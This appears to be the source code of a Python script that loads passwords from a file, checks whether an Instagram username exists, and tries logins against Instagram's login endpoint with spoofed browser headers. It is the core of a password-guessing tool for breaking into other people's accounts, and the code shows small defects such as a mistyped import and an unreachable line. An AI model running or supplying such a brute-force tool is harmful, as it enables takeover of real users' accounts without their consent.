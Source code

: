 # 1mport requests
import json
import time
import os
filename = 'pass.txt'
if os.path.isfile(filename):
	with open(filename) as f:
	    passwords = f.read().splitlines()
	    if (len(passwords) > 0):
	    	print ('%s Passwords loads successfully' % len(passwords))
else:
	print ('Please create passwords file (pass.txt)')
	exit()
def userExists(username):
	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 
	if (r.status_code == 404):
		print ('User not found')
		return False
	elif (r.status_code == 200):
		followdata = json.loads(r.text)
		fUserID = followdata['user']['id']
		return {'username':username,'id':fUserID}
def Login(username,password):
	sess = requests.Session()
	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
	sess.headers.update({
		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
		'x-instagram-ajax':'1',
		'X-Requested-With': 'XMLHttpRequest',
		'origin': 'https://www.instagram.com',
		'ContentType' : 'application/x-www-form-urlencoded',
		'Connection': 'keep-alive',
		'Accept': '*/*',
		'Referer': 'https://www.instagram.com',
		'authority': 'www.instagram.com',
		'Host' : 'www.instagram.com',
		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',
		'Accept-Encoding' : 'gzip, deflate'
	})
	#first time -> to get csrftoken
	r = sess.get('https://www.instagram.com/') 
	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
	data = {'username':username, 'password':password}
	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)
	token = r.cookies.get_dict()['csrftoken']
	sess.headers.update({'X-CSRFToken' : token})
	#parse response
	data = json.loads(r.text)
	if (data['status'] == 'fail'):
		print (data['message'])
		return False
	
	if (data['authenticated'] == True):
		return sess #if we want to keep use session
	else:
		return False
		print ('Password incorrect [%s]' % password)
		return False


